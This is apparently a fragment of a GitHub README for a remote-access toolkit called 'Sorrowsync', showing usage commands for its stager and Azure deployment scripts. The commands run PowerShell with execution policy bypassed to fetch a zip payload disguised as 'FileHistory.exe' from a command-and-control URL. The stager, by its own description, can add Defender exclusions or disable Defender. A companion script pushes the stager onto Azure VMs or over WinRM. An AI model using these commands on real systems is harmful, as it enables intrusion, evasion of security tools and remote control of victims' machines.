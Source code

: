 ##### stager.ps1 - Admin checks for install paths and optionally defender exlucsions/disabling
```powershell
$url = "https://c2.serverless.com/api/assets/fhZip"
$zipName = "fh.zip"
$exeName = "FileHistory.exe"

# powershell
powershell -ep bypass .\Stager.ps1 -url $url -zipName $zipName -exeName $exeName

# cmd.exe
.\Stager.bat -url $url -zipName $zipName -exeName $exeName
```

##### azSadrat.ps1 - Run a Stager on Azure VM or over PS-Session 
```powershell
$url =  "https://c2.serverless.com/api/assets/fhZip"
$zipName = "fh.zip"
$exeName = "FileHistory.exe"
$vmname = ""
$rg = ""
$scriptPath = ".\Stager.ps1"

# az
powershell -ep bypass .\azSadrat.ps1 -az -url $url -zipName $zipName -exeName $exeName -vmName $vmName -resourceGroup $rg -scriptPath $scriptPath

# winRm
$Ip = ''
powershell -ep bypass .\azSadrat.ps1 -winrm -url $url -zipName $zipName -exeName $exeName -vmName $Ip -scriptPath $scriptPath
```

<br>



<p align="center" style="font-size: 48px; font-weight: bold;">
    Sorrowsync - Serverless API
</p>

<p align="center">